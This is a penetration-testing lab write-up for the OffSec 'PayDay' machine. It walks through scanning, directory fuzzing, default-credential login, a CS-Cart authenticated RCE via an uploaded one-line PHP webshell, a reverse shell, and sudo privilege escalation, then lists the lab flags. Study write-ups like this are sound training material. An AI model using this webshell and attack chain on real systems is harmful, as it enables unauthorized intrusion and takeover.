










# Lab Report - PayDay


# Overview 
- **Difficulty**: Intermediate
- **Community Rating**: Intermediate
- **Platform**: Linux
- **Link**: https://portal.offsec.com/machine/payday-164/overview/details

## Resolution Summary 
After identifying `CS-Cart` running on port 80, we logged in to the admin portal using the `admin:admin` credentials. Afterwards, we gained a foothold on the target by uploading a malicious PHP file (`.phtml`) under the `Template editor` tab and accessing it via its URL. Next, we authenticated as `patrick` using the `patrick:patrick` credentials. Finally, we had unrestricted `sudo` usage, allowing us to escalate to a root shell. 

# Information Gathering 
- To begin with, we ran an Nmap scan with the aim of discovering available services, as well as their versions. We discovered a web application running on port 80 running `CS-Cart`:
```bash
sudo nmap 192.168.146.39 -p- -sCV
```
<p align="center">
  
</p>

- After fuzzing for directories, we discovered an admin login portal.
```bash
ffuf -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-small.txt:FUZZ -u http://192.168.146.39/FUZZ -t 180 -ic
```
<p align="center">
  
</p>


- After accessing the login portal, we used the credentials `admin:admin` and gained an authenticated access to the web application:
```bash
http://192.168.146.39/admin.php
```
<p align="center">
  
</p>


- Afterwards, we notices that the installed version was `1.3.3`, which is vulnerable to [Authenticated RCE](https://www.exploit-db.com/exploits/48891). A better explanation of the PoC can be found [here](https://gist.github.com/momenbasel/ccb91523f86714edb96c871d4cf1d05c). 
```bash
http://192.168.146.39/admin.php?target=upgrade_center
```
<p align="center">
  
</p>


# Exploitation 
- We could exploit the vulnerability as follows: 
- First, we created simple PHP webshell named `webshell.phtlm`: 
```bash
cat webshell.phtml
#Output 
<?php system($_REQUEST['cmd']); ?>
```

- Next, we navigated to `Look and Feel` -> `Template editor`, then we uploaded our malicious file (make sure it is a `.phtml` extension): 
```bash
http://192.168.146.39/admin.php?target=template_editor
```
<p align="center">
  
</p>


- Finally, we confirmed RCE by executing the `id`command using our webshell: 
```bash
http://192.168.146.39/skins/webshell.phtml?cmd=id
```
<p align="center">
  
</p>


- Having confirmed the vulnerability, we repeated the same process, but we uploaded a PHP reverse shell instead (ex: [ivan-sincek](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php) or [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)).
- We set up a listener: 
```bash
penelope -p 80
```

- Then we executed our reverse shell by accessing the following URL: 
```bash
http://192.168.146.39/skins/php-reverse-shell.phtml
```
<p align="center">
  
</p>


# Privilege Escalation 
- First, we identified another user (`patrick`) which could be used for lateral movement. We could authenticate as him using the following credentials: `patrick:patrick`. 
	- This is a recurrent pattern in Offsec-style labs, here it can be relevant since we found `admin:admin` to be valid earlier.
```bash
cat /etc/passwd | grep sh
su patrick
id
```
<p align="center">
  
</p>


- We proceeded to collect the first flag: 
```bash
cat /home/patrick/local.txt && id && ip a
```
<p align="center">
  
</p>


- Afterwards, we checked which commands we could run with `sudo`, and we found out that we could use any command with `sudo`. Therefore, we could directly gain a root shell: 
```bash
sudo -l 
sudo su 
id
```
<p align="center">
  
</p>


- Finally, we collected the last flag:
```bash
cat /root/proof.txt && id && ip a
```
<p align="center">
  
</p>


# Trophy 
**User.txt → `8d1021cde52feb7f22a16ac603e0145c`**  

**Root.txt → `fd819d14e0a4af492d5fdb2aece05c69`**

# Lessons Learned
- It can be helpful to look up available exploits for e specific framework/technology, before even finding its version.
	- It can provide insight on a possible attack path and also be a quick win (in case the application is vulnerable and we cannot find its version) .

- We should always try the `admin:admin` credentials pair on web (admin) login portals, as well as the `[valid user]:[valid user]` credential pair. 
	- This is a common Offsec pattern to keep in mind, also a low-hanging fruit.
